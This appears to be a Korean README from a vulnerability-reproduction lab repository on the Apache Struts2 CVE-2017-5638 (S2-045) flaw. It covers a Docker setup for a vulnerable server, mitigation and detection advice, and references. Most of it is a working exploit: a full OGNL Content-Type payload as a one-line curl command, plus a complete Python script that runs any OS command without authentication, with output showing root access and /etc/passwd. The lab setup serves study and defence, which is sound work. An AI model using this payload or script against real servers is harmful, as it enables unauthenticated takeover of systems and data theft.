




# Struts2 — CVE-2017-5638 (S2-045)

> Apache Struts2 Jakarta Multipart parser `Content-Type` OGNL Injection → 원격 코드 실행(RCE)

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2017-5638 |
| 별칭 | S2-045 / S2-046 |
| 영향 컴포넌트 | Apache Struts 2.3.5 ~ 2.3.31, 2.5 ~ 2.5.10 (본 환경: **2.3.30**) |
| 취약 유형 | OGNL Expression Injection → RCE (CWE-20 / CWE-917) |
| 인증 필요 | 없음 (Unauthenticated) |
| 공격 벡터 | 원격 / 네트워크 (단일 HTTP 요청) |
| CVSS 3.0 | **10.0 (Critical)** — `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` |

---

## 1. 취약점 요약 (Summary)

Apache Struts2 는 파일 업로드를 처리할 때 `Content-Type` 헤더를 보고 멀티파트 요청 여부를 판단한다. Jakarta Multipart parser 는 잘못된 `Content-Type` 값을 만나면 예외를 발생시키는데, 이때 **예외 메시지를 만드는 과정에서 헤더 값에 포함된 OGNL(Object-Graph Navigation Language) 식을 그대로 평가**한다.

공격자는 정상적인 MIME 타입 대신 OGNL 식을 담은 `Content-Type` 헤더를 보내는 것만으로, **인증 없이 원격에서 서버 권한(root)으로 임의 OS 명령을 실행**할 수 있다. 요청 한 번으로 즉시 코드 실행이 되고 타이밍·레이스 조건이 없어 재현이 결정론적이다. 2017년 Equifax 대규모 개인정보 유출 사고의 근본 원인으로 지목된, 실제 피해가 매우 컸던 취약점이다.

---

## 2. 환경 구성 (Environment)

단일 컨테이너로 완결된다. 외부(타인) 이미지에 의존하지 않으며, 취약 아티팩트는 Apache **공식 영구 아카이브**(`archive.apache.org`)에서 빌드 시 내려받는다.

### 디렉터리 구조

```
Struts2/CVE-2017-5638/
├── docker-compose.yml
├── Dockerfile
├── poc.py
├── README.md
└── README.assets/
    ├── 1.png   # docker compose up 빌드/기동 화면
    ├── 2.png   # 브라우저 showcase 정상 접속 화면
    ├── 3.png   # poc.py 실행 → id 결과 (uid=0(root))
    └── 4.png   # poc.py 실행 → cat /etc/passwd 결과
```

### `docker-compose.yml`

```yaml
services:
  struts2:
    build: .
    container_name: s2-045
    ports:
      - "8080:8080"
    restart: unless-stopped
```

### `Dockerfile`

```dockerfile
# ---- Stage 1: 취약 아티팩트 취득/추출 ----
FROM debian:12-slim AS fetch
ARG STRUTS_VER=2.3.30
RUN set -eux; \
    apt-get update; \
    apt-get install -y --no-install-recommends wget unzip ca-certificates; \
    rm -rf /var/lib/apt/lists/*; \
    wget -q "https://archive.apache.org/dist/struts/${STRUTS_VER}/struts-${STRUTS_VER}-apps.zip" \
         -O /tmp/struts-apps.zip; \
    unzip -q /tmp/struts-apps.zip -d /tmp/struts; \
    mkdir -p /out/ROOT; \
    unzip -q "/tmp/struts/struts-${STRUTS_VER}/apps/struts2-showcase.war" -d /out/ROOT

# ---- Stage 2: 런타임 (Tomcat 8.5 / JRE8) ----
FROM tomcat:8.5-jre8
RUN rm -rf /usr/local/tomcat/webapps/*
COPY --from=fetch /out/ROOT /usr/local/tomcat/webapps/ROOT
EXPOSE 8080
CMD ["catalina.sh", "run"]
```

### 기동

```bash
# 빌드 + 기동
docker compose up -d --build

# 기동 확인 (Tomcat 로그에 "Server startup" 출력)
docker compose logs struts2
```

기동 후 브라우저에서 `http://localhost:8080/showcase.action` 접속 시 Struts2 Showcase 페이지가 표시된다.





---

## 3. 취약 조건 (Vulnerable Condition)

- **취약 버전 사용**: Struts 2.3.5 ~ 2.3.31 또는 2.5 ~ 2.5.10. (본 환경 = 2.3.30)
- **Jakarta Multipart parser 사용**: Struts2 기본 멀티파트 파서(`jakarta`)가 활성화되어 있다. (기본값)
- **Struts 액션 엔드포인트 접근 가능**: `*.action` 등 Struts 가 매핑한 URL 로 요청을 보낼 수 있다.
- **인증·별도 전제 불필요**: 로그인, 특정 파라미터, 업로드 폼 존재 여부와 무관하게 트리거된다. 잘못된 `Content-Type` 헤더 하나면 충분하다.

> 핵심: 취약점은 "파일 업로드 기능"이 아니라 **멀티파트 파서의 예외 처리에서 OGNL 을 평가**하는 데 있다. 따라서 업로드 폼이 없는 액션 URL 로도 공격이 성립한다.

---

## 4. 재현 절차 (Reproduction Steps)

1. 환경 기동
   ```bash
   docker compose up -d --build
   ```
2. 정상 접속 확인: 브라우저에서 `http://localhost:8080/showcase.action`
3. PoC 실행 — 아래 (A) 또는 (B) 중 하나
   ```bash
   # (A) Python PoC (추가 설치 불필요 — Python 3 표준 라이브러리만 사용)
   python3 poc.py http://localhost:8080/showcase.action id
   ```
   ```bash
   # (B) curl 한 줄 (복붙 그대로 실행 가능)
   curl -s "http://localhost:8080/showcase.action" \
     -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
   ```
4. 응답 본문에 `uid=0(root) gid=0(root) ...` 형태의 `id` 결과가 출력되면 RCE 성공
5. 명령을 바꿔 임의 실행 확인 (예: `cat /etc/passwd`, `uname -a`)
6. 정리
   ```bash
   docker compose down -v
   ```

> 참고: 익스플로잇이 성공하면 명령 결과가 응답 스트림에 직접 기록되면서 HTTP 응답 형식(Content-Length 등)이 깨지는 경우가 있다. 이때 `requests` 같은 고수준 클라이언트는 "Response ended prematurely" 오류를 낼 수 있으므로, 본 PoC 는 **표준 라이브러리 소켓으로 원시 응답을 그대로 읽어** 안정적으로 결과를 출력한다.

---

## 5. PoC 코드 (`poc.py`)

> 파일은 UTF-8 로 저장. 추가 의존성 없음(Python 3 표준 라이브러리만 사용). `python3 poc.py <URL> <CMD>` 로 임의 명령 실행.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""CVE-2017-5638 (Apache Struts2 S2-045) PoC — 표준 라이브러리 소켓 기반"""
import socket
import ssl
import sys
from urllib.parse import urlparse


def build_content_type(cmd: str) -> str:
    """S2-045 OGNL 페이로드가 담긴 Content-Type 헤더 값을 생성한다."""
    return (
        "%{(#nike='multipart/form-data')."
        "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        "(#_memberAccess?(#_memberAccess=#dm):"
        "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        "(#ognlUtil.getExcludedPackageNames().clear())."
        "(#ognlUtil.getExcludedClasses().clear())."
        "(#context.setMemberAccess(#dm))))."
        "(#cmd='" + cmd + "')."
        "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        "(#p=new java.lang.ProcessBuilder(#cmds))."
        "(#p.redirectErrorStream(true)).(#process=#p.start())."
        "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        "(#ros.flush())}"
    )


def exploit(url: str, cmd: str) -> str:
    """원시 소켓으로 요청을 보내고, 서버가 보낸 바이트를 전부 읽어 본문을 반환한다."""
    u = urlparse(url)
    host = u.hostname
    port = u.port or (443 if u.scheme == "https" else 80)
    path = u.path or "/"
    if u.query:
        path += "?" + u.query

    request = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        f"User-Agent: s2-045-poc\r\n"
        f"Content-Type: {build_content_type(cmd)}\r\n"
        f"Content-Length: 0\r\n"
        f"Connection: close\r\n"
        f"\r\n"
    )

    sock = socket.create_connection((host, port), timeout=15)
    if u.scheme == "https":
        ctx = ssl._create_unverified_context()
        sock = ctx.wrap_socket(sock, server_hostname=host)

    sock.sendall(request.encode("utf-8", "ignore"))

    data = b""
    sock.settimeout(15)
    try:
        while True:
            chunk = sock.recv(4096)
            if not chunk:
                break
            data += chunk
    except socket.timeout:
        pass
    finally:
        sock.close()

    text = data.decode("utf-8", "replace")
    if "\r\n\r\n" in text:
        return text.split("\r\n\r\n", 1)[1].strip()
    return text.strip()


def main() -> None:
    url = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:8080/showcase.action"
    cmd = sys.argv[2] if len(sys.argv) > 2 else "id"

    print(f"[*] Target : {url}")
    print(f"[*] Command: {cmd}")
    print("[*] Sending malicious Content-Type header ...\n")

    try:
        output = exploit(url, cmd)
    except OSError as e:
        print(f"[!] 요청 실패: {e}")
        sys.exit(1)

    if not output:
        print("[!] 응답 본문이 비어 있습니다. URL 이 Struts 액션(*.action)인지, "
              "컨테이너가 완전히 기동됐는지 확인하세요.")
        sys.exit(2)

    print("[+] Response (명령 실행 결과):")
    print("-" * 50)
    print(output)
    print("-" * 50)


if __name__ == "__main__":
    main()
```

---

## 6. 실행 결과 (Result)

`id` 명령 실행 결과가 HTTP 응답 본문으로 되돌아온다. Tomcat 컨테이너가 root 로 구동되므로 `uid=0(root)` 이 확인된다.

```text
$ python3 poc.py http://localhost:8080/showcase.action id
[*] Target : http://localhost:8080/showcase.action
[*] Command: id
[*] Sending malicious Content-Type header ...

[+] Response (명령 실행 결과):
--------------------------------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------------------------------
```



`cat /etc/passwd` 로 임의 파일 읽기(=임의 명령 실행)도 확인된다.

```text
$ python3 poc.py http://localhost:8080/showcase.action "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```



> ⚠️ 위 4개 스크린샷(`README.assets/1~4.png`)은 **본인 PC 의 클린 환경에서 직접 실행한 화면**으로 교체해 커밋해야 한다. (개인 포크/CDN URL 금지, 상대경로 `` 로 참조)

---

## 7. 대응 방안 (Mitigation)

1. **버전 업그레이드 (근본 대응)**
   - Struts `2.3.32` 이상 또는 `2.5.10.1` 이상으로 업그레이드한다. 해당 버전은 Jakarta Multipart parser 의 예외 처리에서 OGNL 을 평가하지 않도록 수정되었다.

2. **멀티파트 파서 교체 / 비활성화**
   - 파일 업로드가 불필요하면 Jakarta 파서 사용을 중단하거나, 신뢰 가능한 대체 파서로 교체한다.

3. **`Content-Type` 검증 (완화)**
   - WAF/리버스 프록시에서 `Content-Type` 값에 `%{`, `${`, `multipart/form-data` 이외의 비정상 패턴이 들어오면 차단한다. (임시 완화책이며 우회 가능성 존재 — 근본 대응은 업그레이드)

4. **최소 권한 원칙**
   - 애플리케이션 서버(Tomcat)를 root 가 아닌 전용 비특권 계정으로 구동하여 침해 시 영향 범위를 축소한다. 컨테이너에도 `USER` 지시자로 비특권 사용자를 지정한다.

5. **탐지**
   - 접근 로그에서 `Content-Type` 헤더에 OGNL 패턴(`%{...@java.lang.ProcessBuilder...}`)이 포함된 요청을 탐지·경보한다.

---

## 참고 (References)

- NVD — CVE-2017-5638: https://nvd.nist.gov/vuln/detail/CVE-2017-5638
- Apache Struts Security Bulletin S2-045: https://cwiki.apache.org/confluence/display/WW/S2-045
- Vulhub — struts2/s2-045: https://github.com/vulhub/vulhub/tree/master/struts2/s2-045

---

**Contributor:** @<본인_GitHub_ID>
**Risk Score:** 10.0 (Reproducibility: 채점자 재검증 후 기재)
